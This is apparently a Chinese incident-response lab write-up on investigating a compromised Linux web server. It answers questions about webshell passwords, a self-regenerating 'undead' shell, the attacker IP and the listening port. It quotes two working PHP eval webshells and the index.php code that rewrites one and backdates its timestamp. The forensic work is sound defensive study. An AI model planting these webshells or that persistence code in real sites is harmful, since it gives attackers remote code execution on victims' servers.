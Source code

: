 # 第一章 应急响应 Linux入侵排查

  
  
&lt;!--more--&gt;  
1.web目录存在木马，请找到木马的密码提交  
2.服务器疑似存在不死马，请找到不死马的密码提交  
3.不死马是通过哪个文件生成的，请提交文件名  
4.黑客留下了木马文件，请找出黑客的服务器ip提交  
5.黑客留下了木马文件，请找出黑客服务器开启的监端口提交  
在`/var/www/html`目录下面，发现可疑文件`1.php .shell.php`  
```php  
#1.php  
&lt;?php eval($_POST[1]);?&gt;  
  
#.shell.php  
&lt;?php if(md5($_POST[&#34;pass&#34;])==&#34;5d41402abc4b2a76b9719d911017c592&#34;){@eval($_POST[cmd]);}?&gt;  
```  
解密之后，得`hello`  
在`index.php`发现不死马  
```php  
$file = &#39;/var/www/html/.shell.php&#39;;  
$code = &#39;&lt;?php if(md5($_POST[&#34;pass&#34;])==&#34;5d41402abc4b2a76b9719d911017c592&#34;){@eval($_POST[cmd]);}?&gt;&#39;;  
file_put_contents($file, $code);  
system(&#39;touch -m -d &#34;2021-01-01 00:00:01&#34; .shell.php&#39;);  
usleep(3000);  
```  
存在`shell(1).elf`文件，判断为木马文件，放入到微步进行分析，得到ip 10.11.55.21  
执行`shell(1).elf`，查看去连接了远程ip的哪个端口  
`netstat -antlp| grep 10.11.55.21`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202403151328799.png)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-linux%E5%85%A5%E4%BE%B5%E6%8E%92%E6%9F%A5/  

